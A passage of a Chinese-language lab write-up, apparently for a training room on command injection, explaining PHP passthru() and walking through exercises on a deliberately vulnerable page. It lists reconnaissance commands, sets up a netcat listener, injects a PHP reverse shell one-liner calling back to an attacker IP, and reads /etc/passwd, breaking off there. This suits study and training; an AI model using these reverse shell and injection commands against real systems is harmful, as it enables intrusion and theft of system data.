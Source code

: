 **检测主动命令注入的方法**

当你可以看到系统调用的响应消息时，就说明发生了主动命令注入。在上面的代码中，函数`passthru()`会将响应消息直接传递给HTML文档，因此你可以在相关网页中看到你的命令注入payload的执行效果；正是因为基于这一点，所以我们可以通过输入一些有用的命令来尝试进一步枚举目标信息。对 `passthru()` 的函数调用可能并不总是在屏幕后发生，以上示例只是一个用来演示命令注入漏洞的简单方法。

**可尝试执行的命令**

**Linux**

* whoami
* id
* ifconfig/ip addr
* uname -a
* ps -ef

**Windows**

* whoami
* ver
* ipconfig
* tasklist
* netstat -an

请导航至 http://MACHINE\_IP/evilshell.php ，以完成相关问题。

**答题**

![image-20221201191620410](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221201191620410.png)

tips：MOTD-每日提示-message of the day

启动目标机，在攻击机的浏览器中访问 http://10.10.163.228/evilshell.php

在攻击机上设置netcat监听器：

```shell
nc -lvnp 4444
```

![image-20221203184144289](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221203184144289.png)

在http://10.10.163.228/evilshell.php 页面使用反向shell命令：

```shell
php -r '$sock=fsockopen("10.14.32.186",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
#反向shell备忘录：https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```

![image-20221203184256414](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221203184256414.png)

![image-20221203184333130](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221203184333130.png)

_**通过攻击机的反向shell界面执行命令**_

使用`ls`命令：

![image-20221203184423876](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221203184423876.png)

使用`cat /etc/passwd`命令（查看non-root/non-service/non-daemon用户数目）：
